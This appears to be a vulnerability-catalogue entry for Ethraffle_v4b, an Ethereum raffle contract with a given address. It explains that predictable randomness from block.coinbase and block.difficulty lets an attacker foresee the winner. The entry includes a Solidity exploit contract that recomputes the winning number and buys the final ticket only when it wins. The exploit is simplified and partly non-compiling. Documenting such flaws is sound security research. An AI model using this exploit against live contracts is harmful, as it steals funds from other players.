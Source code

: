 Ethraffle_v4b
======
https://etherscan.io/address/0xcC88937F325d1C6B97da0AFDbb4cA542EFA70870#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle_v4b, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses block coinbase and difficulty as the seed. This can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket == totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
        address seed2 = contestants[uint(msg.sender) % totalTickets].addr;
        uint seed3 = block.difficulty;
        bytes32 randHash = keccak256(seed1, seed2, seed3);

        uint winningNumber = uint(randHash) % totalTickets;
        address winningAddress = contestants[winningNumber].addr;
        
        ......
        
        winningAddress.transfer(prize);
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all the buyers who will claim the price. However, `block.coinbase`, `block.difficulty` and the mapping `contestants` are all readable from etherchain, so the result can be determined in an attack contract.

Exploit
------
    contract Exploit{
    
        Ethraffle_v4b target;
        
        struct Contestant {
            address addr;
            uint raffleId;
        }
        //The data of this mapping can be accessed from the chain. We treat it as known here.
        mapping (uint => Contestant) contestants;
        
        uint constant totalTickets = 50;
        
        function Exploit(address _target) public payable{
            target = Ethraffle_v4b(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 == totalTickets){
                address seed1 = contestants[uint(block.coinbase) % totalTickets].addr;
                address seed2 = contestants[uint(this.address) % totalTickets].addr;
                uint seed3 = block.difficulty;
                bytes32 randHash = keccak256(seed1, seed2, seed3);
                uint winningNumber = uint(randHash) % totalTickets;
                
                if(winningNumber + 1 == totalTickets){
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
